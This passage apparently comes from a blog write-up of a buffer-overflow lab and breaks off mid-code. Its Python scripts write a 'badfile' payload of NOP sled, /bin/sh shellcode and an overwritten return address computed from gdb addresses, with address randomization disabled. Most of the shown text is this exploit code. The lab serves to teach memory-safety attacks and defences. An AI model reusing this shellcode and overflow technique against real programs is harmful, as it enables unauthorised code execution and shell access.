 ```python

##################################################################
# Put the shellcode at the end of the payload.
start = 517 - len(shellcode)
content[start:] = shellcode

##################################################################
# Record the address values of $ebp, &buffer, and byte size.
ebp = 0xffffcb38
buffer = 0xffffcacc
L = 4     # Use 4 for a 32-bit address and 8 for a 64-bit address.

# Decide the return address value and place it in the payload.
ret    = buffer + (ebp - buffer) + 260           # or 'ret = ebp + 260' (we might need to adjust '260')
offset = (ebp - buffer) + L                      # place 'ret' after $ebp 

content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file.
with open('badfile', 'wb') as f:
  f.write(content)
```

<details><summary>Brief explanation of exploit code</summary></details>

![task-1-b](https://github.com/iukadike/blog/assets/58455326/fbb031b2-ded7-4f9e-9bb7-98440b3db322)


<br>

###  Launching Attack without Knowing Buffer Size

Let us assume that we do not know the actual buffer size, but we do know the range of the buffer size, which is from 100 to 200 bytes. Using gdb, we can obtain the buffer address, but that is all we would use gdb for.

![task-2-a](https://github.com/iukadike/blog/assets/58455326/ce13630b-d968-4b3a-b051-e9e22163d2c9)


The following code can be used to exploit the buffer-overflow vulnerability (note: address randomization is disabled).

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode.
shellcode= (
   "\xeb\x15\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x8d\x4b"
   "\x08\x31\xd2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x2a\x41\x41\x41\x41\x42\x42\x42\x42"
).encode('latin-1')


# Fill the content with NOP's.
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode at the end of the payload.
start = 517 - len(shellcode)               
content[start:] = shellcode

##################################################################
# Record the values of &buffer and byte size.
```
